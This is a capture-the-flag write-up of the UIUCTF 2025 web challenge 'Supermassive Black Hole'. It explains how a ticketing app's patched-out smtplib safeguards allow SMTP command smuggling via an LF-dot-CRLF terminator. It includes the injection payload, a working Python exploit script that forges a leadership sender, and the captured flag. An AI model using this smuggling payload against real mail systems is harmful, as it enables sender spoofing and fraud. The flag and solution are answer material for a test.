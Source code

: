 ```yaml
---
title: UIUCTF 25 - Supermassive Black Hole
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
aliases: ["/posts/2025/07/uiuctf-2025-supermassive-black-hole/"]
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - CRLF injection
  - medium
authors:
  - Valenter
---
```

*Black Hole Ticketing Services prides itself on losing tickets at the speed of light. Can you get them to escalate?*

Welcome back to the second installment in this series of cyber-spacefaring challenges from uiuctf.

![Homepage](/uiuctf2025/supermassive-black-hole/screenshot-1.png)
Not as fancy as [*Ruler of the Universe*]({{< ref "posts/uiuctf25-ruler-of-the-universe/index.md" >}}), but far less dystopian than some real-world customer service centers.

The *About us* page contains some useful information, namely leadership@blackholeticketing.com, that will come in handy later.

![About-us](/uiuctf2025/supermassive-black-hole/screenshot-2.png)

## Dissecting the Event‑Horizon Mail Hub

There's an SMTP server running internally on port 1025, unfortunately, the port isn't exposed to us, so we can't interact with it directly:

`smtp_server.py`
```python
async def start_server():
    init_database()

    it_handler = ITBotHandler()
    controller = Controller(it_handler, hostname='localhost', port=1025)

    controller.start()

    return controller

async def main():
    controller = await start_server()

    try:
        while True:
            await asyncio.sleep(5)
    except KeyboardInterrupt:
        controller.stop()

if __name__ == "__main__":
    asyncio.run(main())
```

Luckily, though, we don't need to, the server does all the work for us, everything we type into the ticket submission form gets conveniently inserted into a pre-packaged `message` and relayed to the SMTP listener:

`web_server.py`
```python
        message_data = f"""\
From: support@blackholeticketing.com\r\n\
To: it@blackholeticketing.com\r\n\
Subject: {subject}\r\n\
X-Ticket-ID: {ticket_id}\r\n\
\r\n\
{message}\r\n\
.\r\n""".encode()

        ending_count = message_data.count(b'\r\n.\r\n')
        if ending_count != 1:
            raise ValueError("Bad Request")

        with smtplib.SMTP('localhost', 1025) as client:
            client.helo("example.com")
            client.sendmail('support@blackholeticketing.com', ['it@blackholeticketing.com'], message_data)
            # Wait a second for SMTP to process the ticket
            time.sleep(1)

        ticket_data = {
            'id': ticket_id,
            'timestamp': int(time.time() * 1000),
            'from': 'support@blackholeticketing.com',
            'subject': subject,
            'body': message,
            'status': 'submitted'
        }

        return render_template('ticket_submitted.html', ticket_data=ticket_data)
```

If we can somehow manage to change the sender address to leadership@blackholeticketing.com, and impersonate their star‑fleet commander‑in‑chief, the server will print out the flag for us.

`smtp_server.py`
```python
from_header = message.get('From', 'Unknown')
subject = message.get('Subject', 'No Subject')
body = str(message.get_payload())
ticket_id = message.get('X-Ticket-ID', f'{int(time.time())}_{self.processed_count}')

if internal.leadership_email in from_header.lower():
    response = "C-Suite ticket received! Will escalate immediately!" + f"\n{internal.flag}"
elif internal.support_email in from_header.lower():
    response = "Request for support received! Will resolve after lunch break."
else:
    response = "Please use our support portal to submit a ticket."
```

Now, the Intergalactic Postal Center must suffer from the same understaffing and underpaying issues we have here on Earth, because somebody decided it would be a good idea to override every inherent safety function in the Python SMTP library:

```python
try:
    smtplib._fix_eols = return_unchanged
    smtplib._quote_periods = return_unchanged
    smtplib.SMTP.data = new_data
```

- **`_fix_eols`** normally converts `\n` into `\r\n` to follow the SMTP standard,
- **`_quote_periods`** does dot-stuffing (adds an extra period at the start of every line that begins with a period),
- **`SMTP.data`** was patched with `new_data`.

It instead only runs one check:

```python
ending_count = message_data.count(b'\r\n.\r\n')
if ending_count != 1:
    raise ValueError("Bad Request")
```
it counts the number of terminators and allows there to be only one, this is to prevent us from closing our message and crafting a new one inside the same input.
But since `fix_eols` is deactivated, this is vulnerable to **CRLF injection**.

## Examining the vulnerability

We can use `\n.\r\n`, a.k.a *LF‑dot‑CRLF*, to close our crafted message, the SMTP server will recognize a dot-only line as end-of-DATA, and everything that follows (`MAIL FROM:…`, `RCPT TO:…`, etc.) will be interpreted  as new SMTP commands.

#### The payload

```smtp
"\n.\r\n"
"MAIL FROM:<ceo@supermassive.inc>\r\n"
"RCPT TO:<it@blackholeticketing.com>\r\n"
"DATA\r\n"
"From: leadership@blackholeticketing.com\r\n"
"To: it@blackholeticketing.com\r\n"
"Subject: escalate\r\n"
"X-Ticket-ID: 1444\r\n"
"\r\n"
"pls fix asap\r\n"
".\n"
```
*Ticket-ID was added only for convenience and is not necessary for the final exploit*

Thus we add our own custom sender and receiver and pass the message on to the server.
#### Final script

```python
#!/usr/bin/env python3
import requests, time, textwrap

#BASE = "http://localhost:8080"
BASE = "https://inst-4e64969ec136b504-supermassive-black-hole.chal.uiuc.tf/"

payload = (
    "\n.\r\n"
    "MAIL FROM:<ceo@supermassive.inc>\r\n"
    "RCPT TO:<it@blackholeticketing.com>\r\n"
    "DATA\r\n"
    "From: leadership@blackholeticketing.com\r\n"
    "To: it@blackholeticketing.com\r\n"
    "Subject: escalate\r\n"
    "X-Ticket-ID: 1444\r\n"
    "\r\n"
    "pls fix asap\r\n"
    ".\n"
)

#injection ticket
requests.post(f"{BASE}/submit_ticket",
              data={"subject": "Outage", "message": payload})

#wait for the bot to process
time.sleep(2)


resp = requests.get(f"{BASE}/check_response/1444").json()
print(resp["response"])
```

**`uiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}`**
